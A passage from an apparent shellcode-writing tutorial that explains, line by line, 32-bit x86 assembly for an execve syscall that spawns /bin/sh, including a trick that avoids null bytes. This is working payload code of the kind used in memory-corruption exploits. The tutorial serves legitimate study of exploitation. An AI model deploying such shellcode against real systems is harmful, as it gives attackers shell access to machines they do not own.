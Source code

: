 ## Execve Syscall

Finally, we need to tell the program what to do once everything we've done so far is complete. In our case, we want the program to execute `/bin/sh`. 

`cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep execve` gives us 11 (`0x0b`). 

Let's clear out EAX

```nasm
    xor eax, eax
```

We will be utilizng the stack for these arguments. So we will be doing things in slightly a different order than our previous syscalls. This particular syscall requires null terminators and pointers to stack locations. Remember the stack grows from High to Low so first we need to put a terminator onto the stack.

```nasm
    push eax
```

Next, we need to place the string `/bin/sh` onto the stack in reverse order. However, before we do this and in order to avoid NULL BYTEs in our shellcode, we need to make sure that the string is divisable by 4. Right now, it's 7 characters so we add an additional character to make it an even 8. `//bin/sh`

```nasm
    push 0x68732f6e
    push 0x69622f2f
```

Next, we need EBX to carry the pointer location of the entity we just created on the stack. 

```nasm
    mov ebx, esp
```

Next, we will need another zeroed out value to be pointed to for EDX, so let's push EAX onto the stack once more and then assign the ESP to EDX.

```nasm
    push eax
    mov edx, esp
```

Finally, ECX should point to the location of EBX. So we'll push EBX onto the stack and then move ESP into ECX. 

```nasm 
    push ebx
    mov ecx, esp
```

Now we can put our `0x0b` into the lower portion of EAX and call our interrupt. 

```nasm
    mov al, 0x0b
    int 0x80
```
